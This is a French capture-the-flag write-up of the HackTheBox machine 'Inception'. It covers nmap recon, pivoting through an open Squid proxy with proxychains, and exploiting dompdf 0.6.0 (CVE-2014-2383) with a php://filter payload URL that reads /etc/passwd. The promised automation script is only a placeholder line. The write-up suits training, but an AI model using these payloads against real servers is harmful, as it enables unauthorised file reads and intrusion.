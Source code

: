 ![inception](https://i.imgur.com/MScWMDt.png)

Bonjour à tous, aujourd'hui je vous présente une machine notée hard qui été vraiment original et j'ai pris du plaisir à la root : **Inception** de **HackTheBox**. 😃

# Recon

## Nmap 10.10.10.67

```sh
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Inception
3128/tcp open  http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
```

La machine contient :
  1. Un serveur Apache
  2. Un proxy Squid 

## Enumeration Squid

En utilisant [proxychains](https://github.com/haad/proxychains), nous pouvons tenter de passer par ce proxy sans authentification.

Proxychains fonctionne pour les paquets TCP mais pas UDP, donc pour nmap par exemple si nous voulons scanner à travers un proxy il va falloir rajouter le paramètre **-sT** pour préciser à nmap de faire un **scan TCP** (et non SYN par défaut)

Proxychains va prendre les proxies de haut en bas, deplus il y a plusieurs options :

- **Strict chaining**, proxychains suit obligatoirement le chemin donné dans `/etc/proxychains.conf`
- **Dynamic chaining**, proxychains va d'abord détecter si le proxy est up avant de l'utiliser
- **Random chaining**, tout est dans le nom, il va pas suivre un ordre précis

Pour nous connecter au proxy je vais ajouter ceci à ma configuration proxychains : 

`http	10.10.10.67	3128`

Ensuite nous pouvons tenter un scan nmap sur le localhost du serveur distant (le flag -f nous permet de spécifier le path de notre fichier de configuration) :

```sh
❯ proxychains -f proxychains.conf nmap -sT 127.0.0.1 -Pn
[proxychains] config file found: proxychains.conf
[proxychains] preloading /usr/lib/libproxychains4.so
[proxychains] DLL init: proxychains-ng 4.14
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-01 14:21 CET
[proxychains] Dynamic chain  ...  10.10.10.67:3128  ...  127.0.0.1:113 <--denied
...
Nmap scan report for localhost (127.0.0.1)
Host is up (0.11s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3128/tcp open  squid-http
```

Nous découvrons un serveur SSH accéssible seulement en local cependant nous pouvons nous y connecter en passant par le proxy.

## Enumeration Web

Un WebDIR nous dévoile un directory /dompdf :

![webdir](https://i.imgur.com/oQlS9iA.png)

Après quelques recherches [dompdf](https://github.com/dompdf/dompdf) est un convertisseur HTML to PDF.

Nous pouvons trouver la version de cette outil dans le fichier /dompdf/VERSION. Nous avons ici **DOMPDF 0.6.0**.

# Foothold + Scripting

```sh
❯ searchsploit dompdf 0.6.0
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
dompdf 0.6.0 - 'dompdf.php?read' Arbitrary File Read                                                                                                                | php/webapps/33004.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
❯ searchsploit -m php/webapps/33004.txt
  Exploit: dompdf 0.6.0 - 'dompdf.php?read' Arbitrary File Read
      URL: https://www.exploit-db.com/exploits/33004
     Path: /usr/share/exploitdb/exploits/php/webapps/33004.txt
❯ cat 33004.txt
Vulnerability title: Arbitrary file read in dompdf
CVE: CVE-2014-2383
Vendor: dompdf
Affected version: v0.6.0

Command line interface:
php dompdf.php
php://filter/read=convert.base64-encode/resource=<PATH_TO_THE_FILE>

Web interface:
   
http://example/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=<PATH_TO_THE_FILE>

Further details at:
https://www.portcullis-security.com/security-research-and-downloads/security-advisories/cve-2014-2383/
```

Avec la [CVE-2014-2383](https://www.exploit-db.com/exploits/33004), nous pouvons lire des fichiers locaux du serveur. Cette vulnérabilité nécessite que le flag de configuration DOMPDF_ENABLE_PHP soit activé (désactivé par défaut).

En utilisant les **PHP Wrappers**, il est possible de contourner la protection "chroot" (DOMPDF_CHROOT) qui empêche dompdf d'accéder aux fichiers système ou d'autres fichiers sur le serveur web. (le flag DOMPDF_ENABLE_REMOTE doit être activé)

J'ai tout d'abord essayé de récupérer le fichier /etc/passwd :

`http://inception.htb/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd`

Un fichier PDF est généré et celui ci contient le contenu du fichier demandé en base64. Il suffit de déchiffrer cette chaine :

![etc_passwd_base64](https://i.imgur.com/gokJrZf.png)

Nous avons déjà un utilisateur du nom de :

- cobb

J'ai donc fait un petit script en python qui permet d'automatiser la procédure de cette vulnérabilité car je n'ai pas trouvé de PoC :

```py
print("test")
```
